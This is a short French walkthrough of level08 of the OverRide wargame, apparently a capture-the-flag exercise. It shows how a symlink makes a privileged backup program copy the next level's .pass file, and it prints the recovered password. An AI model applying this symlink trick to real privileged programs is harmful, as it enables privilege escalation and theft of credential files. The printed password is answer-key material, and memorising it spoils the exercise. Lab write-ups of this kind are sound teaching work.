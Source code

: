 #### Etape 1 : Décompilation

Le programme ouvre un fichier,si il est lisible le programme effectue une copie dans un dossier "backups" et ajoute des logs concernant la réussite de la copie dans un fichier ".logs".

#### Etape 2 : Objectif

Lire le fichier .pass du niveau suivant pour obtenir le mot de passe.

#### Etape 3 : Tests

Il n'est pas possible de lire directement le fichier faute de droit d'utilisateur.
```bash
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

#### Etape 4 : Solution

Il suffit de créer un lien symbolique vers le fichier en question.
(Ne pas oublier de ce donner les droits dans le dossier racine : chmod 777 .)

#### Etape 5 : Execution 

```bash
level08@OverRide:~$ ln -s /home/users/level09/.pass solution
level08@OverRide:~$ ./level08 solution
level08@OverRide:~$ cat ./backups/solution 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```